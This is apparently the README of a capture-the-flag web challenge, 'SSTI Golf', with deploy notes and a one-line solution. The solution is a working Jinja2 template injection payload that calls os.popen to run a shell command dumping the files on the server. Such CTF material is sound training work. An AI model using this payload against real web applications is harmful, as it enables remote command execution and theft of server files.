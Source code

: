 # SSTI Golf
**Category:** Web
**Difficulty:** Easy-Medium
**Author:** puzzler7

## Description

Just in case you didn't get *enough* golf with the other challenge.

## Distribution

- website

## Deploy notes

- needs hd on the remote (which I think is standard?) - otherwise I'll need to increase the limit to 50 and the solution will use cat.

## Solution

- `{{cycler.next.__globals__.os.popen('hd *')|min}}`
